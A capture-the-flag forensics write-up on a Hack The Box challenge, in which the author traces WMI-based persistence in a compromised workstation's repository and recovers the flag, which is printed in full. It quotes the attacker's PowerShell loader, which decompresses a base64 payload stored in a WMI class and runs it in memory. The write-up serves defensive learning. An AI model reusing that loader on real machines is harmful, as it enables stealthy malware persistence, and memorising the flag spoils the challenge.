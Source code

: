 # Perseverance
> Write-up author: jon-brandy
## DESCRIPTION:
During a recent security assessment of a well-known consulting company, the competent team found some employees' credentials in publicly available breach databases. 
Thus, they called us to trace down the actions performed by these users. During the investigation, it turned out that one of them had been compromised. 
Although their security engineers took the necessary steps to remediate and secure the user and the internal infrastructure, the user was getting compromised repeatedly.
Narrowing down our investigation to find possible persistence mechanisms, we are confident that the malicious actors use WMI to establish persistence.
You are given the WMI repository of the user's workstation. Can you analyze and expose their technique?
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212272170-018e887b-e3e3-4ae6-9969-4311a33a0402.png)


![image](https://user-images.githubusercontent.com/70703371/212272204-e901bf39-fcd0-4c9f-aa0d-afc256689db8.png)


2. Based from the description, we can assume that these files are the WMI repository of a compromised user's workstation.
3. Since it's new for me, so i did a small outsource about WMI and found [this](https://netsecninja.github.io/dfir-notes/wmi-forensics/) website which contains great information about WMI Forensics.

```
C:\Windows\System32\wbem\Repository - Stores the CIM database files
- OBJECTS.DATA - Objects managed by WMI
- INDEX.BTR - Index of files imported into OBJECTS.DATA
- MAPPING[1-3].MAP - correlates data in OBJECTS.DATA and INDEX.BTR

C:\Windows\System32\wbem\AutoRecover - MOF files with #PRAGMA AUTORECOVER in first line will be saved here in case the repo needs to be built again, establishing persistence.
- Review file timestamps
```

4. We should be able to parse the compromised user's WMI repository and extract information about types of commands executed. So i did a small outsource again on the internet and found [this](https://github.com/davidpany/WMI_Forensics) script, let's use it to parse our files.

##### Notes: Can't run the script with python3, run it with python2

```py
python2 PyWMIPersistenceFinder.py ../../../../../Downloads/bin/foren/perse/OBJECTS.DATA
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212274527-3cd98208-30b5-4501-b459-c273f89a344a.png)


![image](https://user-images.githubusercontent.com/70703371/212274564-0acf4ecd-7497-4236-b236-f93336697de6.png)

```
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;sv o (New-Object IO.MemoryStream);sv d (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file),[IO.Compression.CompressionMode]::Decompress));sv b (New-Object Byte[](1024));sv r (gv d).Value.Read((gv b).Value,0,1024);while((gv r).Value -gt 0){(gv o).Value.Write((gv b).Value,0,(gv r).Value);sv r (gv d).Value.Read((gv b).Value,0,1024);}[Reflection.Assembly]::Load((gv o).Value.ToArray()).EntryPoint.Invoke(0,@(,[string[]]@()))|Out-Null
```

5. Based from the result we know that the WMI consumer name is `Windows Update` and it's running an encoding PowerShell command. Let's decode the encoded text.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212275186-cc65e86e-bfdc-493f-8cb6-3f2cf6dd78b9.png)


6. Hmm i think we need to move all the files to windows then run the first command from the decoded base64 text using poweshell:

```
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;
```

7. But dunno why my powershell can't identidy the `Get-WmiObject` command, hence i tried to strings the **OBJECT.DATA** file. But we want to filter it with `memoryArray`, it's because we know the decoded command uses `win32_MemoryArrayDevice` in order to access the host's memory.

```
strings OBJECTS.DATA | grep -i memoryarray
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212280631-684a2ef9-fd85-4a6c-9d51-8767b79cd1ed.png)


8. Well i tried to add `-C` and found an encoded base64 strings at `-C5`.

```
strings OBJECTS.DATA | grep -i memoryarray -C5
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212280729-e6726220-a0dc-4055-af8e-f5941e244396.png)


![image](https://user-images.githubusercontent.com/70703371/212280771-1e6862c6-36b5-4a8c-9d9e-47ec3a05f417.png)


9. Now decode the strings using cyberchef.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212281510-6805c262-e619-4137-af41-36be1e97ee62.png)


10. Actually i stucked for a while here, until i add the magic recipe.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212281697-aa6f4521-3606-44c2-b33a-bbf2f4577de8.png)


![image](https://user-images.githubusercontent.com/70703371/212282210-7def5b95-efc1-4e7a-b22a-290d8379a52f.png)


11. When i scrolled down, found this base64 strings.

![image](https://user-images.githubusercontent.com/70703371/212282392-bdaa051a-bcdc-4d55-b5d0-d43b86cba229.png)


12. Let's add `decode text` recipe.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212283373-17a3e443-e03e-4b21-950b-9732387ce6c4.png)


13. Now decode this base64, because it has the HTB prefix.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212284007-b763cf5b-9dbd-4d2f-b428-48c62c53985a.png)


14. Got the flag!

## FLAG

```
HTB{1_th0ught_WM1_w4s_just_4_M4N4g3m3nt_T00l}
```


## LEARNING REFERENCES:

```
https://netsecninja.github.io/dfir-notes/wmi-forensics/
https://github.com/davidpany/WMI_Forensics
```

